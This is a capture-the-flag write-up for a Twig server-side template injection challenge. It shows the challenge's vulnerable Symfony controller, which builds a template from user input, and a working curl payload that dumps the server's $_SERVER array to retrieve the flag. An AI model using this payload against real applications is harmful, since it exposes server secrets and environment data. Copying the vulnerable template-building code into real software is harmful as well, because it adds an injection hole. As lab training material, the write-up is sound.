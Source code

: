# THE TWIG INJECTOR [MODERATE]

## Description

> Can you abuse the Twig injector service to gain access to the flag hidden in the $_SERVER array?

## Short Solution Description / Tags

Twig SSTI

## Solution

<details><summary>Click here for source code in text format</summary>

```php
<?php

namespace App\Controller;

use Symfony\Component\HttpFoundation\Request;
use Symfony\Component\HttpFoundation\Response;
use Symfony\Component\Routing\Annotation\Route;
use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;

class ChallengeController extends AbstractController
{

    /**
     * @Route("/inject")
     */
    public function inject(Request $request)
    {
        $inject = preg_replace('/[^{\.}a-z\|\_]/', '', $request->query->get('inject'));
        $response = new Response($this->get('twig')->createTemplate("Welcome to the twig injector!\n${inject}")->render());
        $response->headers->set('Content-Type', 'text/plain');
        return $response;
    }

    /**
     * @Route("/")
     */
    public function index()
    {
        return new Response(highlight_file(__FILE__, true));
    }
}
```

</details>

Twig SSTI.

```console
$ curl -G -s https://ab14bbd920c26145.247ctf.com/inject --data-urlencode 'inject={{app.request.server.all|join(',')}}' | grep -oiE '247ctf{.*?}'
247CTF{[REDACTED]}
```

## References

- [Server Side Template Injection - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/#twig)
